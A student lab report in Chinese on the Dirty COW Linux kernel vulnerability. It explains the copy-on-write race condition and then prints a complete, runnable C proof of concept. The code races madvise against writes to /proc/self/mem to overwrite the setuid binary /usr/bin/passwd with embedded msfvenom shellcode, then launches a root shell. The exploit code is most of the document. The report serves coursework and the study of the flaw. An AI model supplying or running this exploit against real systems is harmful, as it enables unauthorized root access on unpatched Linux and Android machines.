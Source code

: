 # Exp 4 利用Dirty COW攻击操作系统

赵子瑞 PB14000296

## 1. 漏洞介绍  

Dirty COW是一个自Linux内核2.6.22以来就一直存在的一个漏洞, 这个漏洞在2016年的十月份才被发现, 在内核4.4.26及以上的版本中已经被修复. 这个漏洞会影响所有的基于Linux内核的系统, 比如在Android 7即一下的系统, 都被证实可以通过这个漏洞来获得root权限.

这个漏洞的原理是利用多线程写时复制(COW)时的竞争来允许用户对其本来没有足够的权限的文件进行更改. 当有两个线程或者进程去访问同一个文件的时候, 会有一定概率触发一个竞争条件, 这种时候, 在内存被拷贝之前就有一定概率被标记为可以写入, 这样就可以利用这个标记来修改一些原本无法修改的文件.

## 2. PoC

### a. 关键代码解析

```c
map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```

在攻击之前, 先创建好一个内存映射文件, 其具有读属性, 并且为私有的COW映射.

```c
void* procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem", O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}
```

上面这个函数的用途是试图去修改一个被映射到内存的文件, 其在确认修改成功之前会不停地尝试进行修改, 而下面的函数中是另一个用来和写入线程相互竞争的线程, 其核心函数就是madvise, 其用途是告诉内核一些关于内存处理的"提示", 比如这里MADV_DONTNEED, 含义是这些内存在短时间内不会再被访问, 系统可以回收这一块资源.所以程序中总共有两个线程, 第一个线程的作用是试图写入该文件, 这会产生一次COW, 并且随后又会被另外一个线程将这一块内存的拷贝删除, 双方就会往复地进行, 线程1试图写入, 系统就会为其创建一个新的内存的拷贝, 而线程2又将其释放, 当两者交替进行操作的时候, 就有可能一次COW还未被系统释放就被再次写入, 在一些条件下会导致其之间写道原内存上, 这样就达到了对无法写的内存进行读写的操作.

```c
void* madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}
```

由于可以对不可以写入的内存进行写入, 所以可以通过这种方式去修改passwd文件去获得root权限. 完整代码如下

### b. 源代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

/*
* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
*/ 
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
  0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};

unsigned int sc_len = 177;


void *madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem",O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
    char buf[sc_len];

    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s overwritten\n", suid_binary);
            break;
        }

        fclose(fp);
        sleep(1);
    }

    stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

    f = open(suid_binary, O_RDONLY);
    fstat(f, &st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len + 1);

    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```

## 3. 实验结果

编译代码:

```shell
/run.sh
```

在科大云的环境(Linux version 3.2.0-4-amd64, debian 7.x)中, 去运行程序, 可以得到如下结果:

![](360.png)